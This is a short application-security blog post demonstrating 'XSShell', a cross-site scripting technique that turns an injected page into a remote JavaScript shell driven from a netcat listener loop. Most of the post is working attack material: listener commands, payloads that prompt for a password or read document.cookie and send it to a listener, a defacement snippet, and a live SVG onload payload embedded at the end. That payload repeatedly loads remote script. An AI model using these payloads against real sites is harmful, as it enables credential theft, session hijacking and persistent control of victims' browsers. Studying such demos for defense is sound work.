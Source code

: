 title: 'Fun with XSShell'
publish: True
categories: [application security]

So this is kinda fun. With this page open, copy and paste one of the listener commands from below into a terminal window on your local machine. Then, paste `alert(42)` into the resulting shell and press "Enter". Once you recover from the initial shock of what you just witnessed, play with the following payloads and spend the next hour of life thoroughly enjoying yourself.

<!-- READMORE -->

### Listeners

#### Linux

``` text
while :; do printf "j$ "; read c; printf "HTTP/1.1 200 OK\n\n$c" | nc -lp 8000 >/dev/null; done
```

#### OS X

``` text
while :; do printf "j$ "; read c; printf "HTTP/1.1 200 OK\n\n$c" | nc -l 8000 >/dev/null; done
```

### Example Payloads

#### Redirection

``` text
window.location = 'http://lanmaster53.com/training/'
```

#### Phishing

``` text
i=new Image();i.src="http://127.0.0.1:8888/pw/"+prompt("Password:")
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Session Hijacking

``` text
i=new Image();i.src="http://127.0.0.1:8888/pw/"+document.cookie
```

* Requires a second listener, e.g. `python -m "SimpleHTTPServer" 8888`.

#### Defacement

``` text
d=document;e=d.createElement("p");e.innerHTML="lanmaster53 wuz here!";d.body.appendChild(e)
```

### Credits

This is all based on the code shared in the following tweets.

<div class="row">
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Target<br><br>&lt;svg/onload=setInterval(function(){d=document;z=d.createElement(&quot;script&quot;);z.src=&quot;//HOST:PORT&quot;;d.body.appendChild(z)},0)&gt;</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639069519097503744">September 2, 2015</a></blockquote>
</div>
<div class="six columns">
<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr">XSShell - Attacker<br><br>$ while :; do printf &quot;j$ &quot;; read c; echo <a href="https://twitter.com/search?q=%24c&amp;src=ctag">$c</a> | nc -lp PORT &gt;/dev/null; done</p>&mdash; Brute (@brutelogic) <a href="https://twitter.com/brutelogic/status/639073880922030080">September 2, 2015</a></blockquote>
</div>
</div>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

<!-- attack payload -->
<svg/onload=setInterval(function(){d=document;try{d.getElementById("x").remove()}catch(e){};z=d.createElement("script");z.id="x";z.src="http://127.0.0.1:8000";d.body.appendChild(z)},3000)>

Check the source code here ^^^ for the active payload.
